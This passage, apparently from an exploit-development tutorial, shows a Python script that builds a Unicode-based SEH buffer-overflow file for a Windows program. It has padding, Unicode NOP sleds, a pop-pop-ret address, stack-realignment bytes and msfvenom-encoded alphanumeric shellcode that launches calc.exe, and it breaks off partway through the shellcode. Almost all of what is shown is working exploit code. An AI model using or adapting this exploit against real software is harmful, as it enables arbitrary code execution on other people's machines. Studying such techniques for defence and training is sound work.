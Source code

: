 <p align="center"><i>MSFVenom payload generation.</i></p>

After we copy this into our exploit code it should look something like the following:
```
f = open("crash-6.txt", "wb")  
  
buf = b""  
buf += b"\x41" * 1019  
buf += b"\x71\x71"                  # Unicode NOP  
buf += b"\xB3\x48"                  # 0x004800b3 | pop ecx, pop ebp, ret  
  
#realigning stack  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x54"                      # Push ESP  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x58"                      # POP EAX  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x05\xFF\x10"              # ADD EAX,  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x2d\xEA\x10"              # SUB EAX,  
buf += b"\x75"                      # Unicode NOP  
  
buf += b"\x71" * 595  
  
#msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegister=EAX -f python  
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"  
buf += b"\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"  
buf += b"\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"  
buf += b"\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"  
buf += b"\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"  
buf += b"\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"  
buf += b"\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"  
buf += b"\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"  
buf += b"\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"  
buf += b"\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"  
buf += b"\x4c\x59\x58\x35\x32\x4b\x50\x4b\x50\x4d\x30\x31\x50"  
buf += b"\x43\x59\x4b\x35\x50\x31\x39\x30\x42\x44\x54\x4b\x50"  
buf += b"\x50\x30\x30\x54\x4b\x42\x32\x4c\x4c\x54\x4b\x31\x42"  
buf += b"\x4c\x54\x54\x4b\x34\x32\x4f\x38\x4c\x4f\x48\x37\x50"  
buf += b"\x4a\x4f\x36\x50\x31\x4b\x4f\x36\x4c\x4f\x4c\x31\x51"  
buf += b"\x43\x4c\x4c\x42\x4e\x4c\x4f\x30\x39\x31\x38\x4f\x4c"  
buf += b"\x4d\x4d\x31\x59\x37\x4a\x42\x4a\x52\x42\x32\x51\x47"  
buf += b"\x34\x4b\x50\x52\x4c\x50\x34\x4b\x30\x4a\x4f\x4c\x54"  
buf += b"\x4b\x30\x4c\x4e\x31\x34\x38\x4b\x33\x30\x48\x4b\x51"  
buf += b"\x4a\x31\x30\x51\x54\x4b\x50\x59\x4d\x50\x4d\x31\x5a"  
buf += b"\x33\x44\x4b\x31\x39\x4c\x58\x39\x53\x4e\x5a\x30\x49"  
buf += b"\x44\x4b\x4e\x54\x34\x4b\x4d\x31\x4a\x36\x4e\x51\x4b"  
buf += b"\x4f\x36\x4c\x59\x31\x38\x4f\x4c\x4d\x4b\x51\x49\x37"  
buf += b"\x4e\x58\x4b\x30\x52\x55\x4b\x46\x4c\x43\x43\x4d\x4c"  
buf += b"\x38\x4f\x4b\x43\x4d\x4e\x44\x42\x55\x5a\x44\x30\x58"  
buf += b"\x54\x4b\x52\x38\x4e\x44\x4b\x51\x59\x43\x31\x56\x34"  
buf += b"\x4b\x4c\x4c\x50\x4b\x34\x4b\x50\x58\x4d\x4c\x4b\x51"  
buf += b"\x39\x43\x44\x4b\x4d\x34\x44\x4b\x4b\x51\x4a\x30\x35"  
buf += b"\x39\x30\x44\x4d\x54\x4d\x54\x31\x4b\x51\x4b\x53\x31"  
buf += b"\x50\x59\x50\x5a\x32\x31\x4b\x4f\x49\x50\x31\x4f\x31"  
buf += b"\x4f\x31\x4a\x34\x4b\x4e\x32\x4a\x4b\x54\x4d\x51\x4d"  
buf += b"\x51\x5a\x4b\x51\x54\x4d\x54\x45\x46\x52\x4b\x50\x4d"  
buf += b"\x30\x4b\x50\x32\x30\x33\x38\x4e\x51\x34\x4b\x42\x4f"  
buf += b"\x34\x47\x4b\x4f\x49\x45\x57\x4b\x5a\x50\x38\x35\x45"  
buf += b"\x52\x52\x36\x42\x48\x37\x36\x34\x55\x47\x4d\x55\x4d"  
buf += b"\x4b\x4f\x4a\x35\x4f\x4c\x4c\x46\x33\x4c\x4c\x4a\x43"  
buf += b"\x50\x4b\x4b\x39\x50\x33\x45\x4d\x35\x47\x4b\x50\x47"  
buf += b"\x4e\x33\x42\x52\x42\x4f\x31\x5a\x4b\x50\x50\x53\x4b"  
buf += b"\x4f\x49\x45\x52\x43\x53\x31\x42\x4c\x53\x33\x4e\x4e"  
```